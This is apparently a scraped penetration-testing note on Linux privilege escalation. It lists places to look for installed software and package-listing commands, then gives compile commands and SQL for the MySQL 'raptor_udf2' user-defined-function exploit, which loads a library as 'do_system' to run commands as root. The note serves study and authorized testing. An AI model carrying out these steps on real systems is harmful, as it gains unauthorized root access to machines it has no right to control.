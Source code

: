 </div></div>


## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

## User Installed Software

</div>


- some third party software that might be vulnerable?. If you find anything google it for exploits.
```shell
# Common locations for user installed software
/usr/local/
/usr/local/src
/usr/local/bin
/opt/
/home
/var/
/usr/src/

# Debian
dpkg -l

# CentOS, OpenSuse, Fedora, RHEL
rpm -qa (CentOS / openSUSE )

# OpenBSD, FreeBSD
pkg_info
```

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- service is running as root and the "root" user for the service does not have a password assigned
- take advantage of [[UDF\|UDF]] to run system commands as root via the MySQL service.
- https://www.exploit-db.com/exploits/1518
Compile
```shell
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect

	mysql -u root

Create a [[UDF\|UDF]] ) "do_system" using our compiled exploit:
```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
